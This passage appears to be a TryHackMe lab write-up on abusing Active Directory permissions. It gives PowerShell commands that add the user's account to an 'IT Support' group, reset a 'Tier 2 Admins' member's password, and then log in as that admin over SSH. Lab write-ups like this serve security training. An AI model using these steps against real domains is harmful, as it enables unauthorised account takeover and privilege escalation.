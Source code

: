 ```
ssh za.tryhackme.loc\\<AD Username>@thmwrk1.za.tryhackme.loc
```

Once we are inside of ssh, we need to do the following:

```powershell
powershell

Add-ADGroupMember "IT Support" -Members "OUR ACCOUNT USERNAME"
Get-ADGroupMember -Identity "IT Support"
```

This will ad our user to the IT group, we can verify it with the last command:

![](images/Pasted%20image%2020250527122814.png)

![](images/Pasted%20image%2020250527122826.png)

Now, we need to select a target from the _Tier 2 admins_, let's check the list:

```powershell
Get-ADGroupMember -Identity "Tier 2 Admins"
```

![](images/Pasted%20image%2020250527122942.png)

There's a lot of them, we can select anyone, just try not to pick some of the first ones as it may interfere with other student's practice, let's pick `t2_jordan.hawkins` for example:

```powershell
$Password = ConvertTo-SecureString "strong.password1" -AsPlainText -Force 
Set-ADAccountPassword -Identity "t2_jordan.hawkins" -Reset -NewPassword $Password 
```

![](images/Pasted%20image%2020250527123227.png)

If we do it too fast, we may get an `access denied` error, this happens due to the synchronization not happening yet, we can do this:

```
gpupdate /force
```

After we do that, we need to disconnect and reconnect:

![](images/Pasted%20image%2020250527123324.png)

If we wait a couple minutes and do it again, we can see this:

![](images/Pasted%20image%2020250527123702.png)

No error message, this means it worked, let's go into ssh with our user then:

```
ssh za.tryhackme.loc\\<Admin Username>@thmwrk1.za.tryhackme.loc
```

![](images/Pasted%20image%2020250527123823.png)
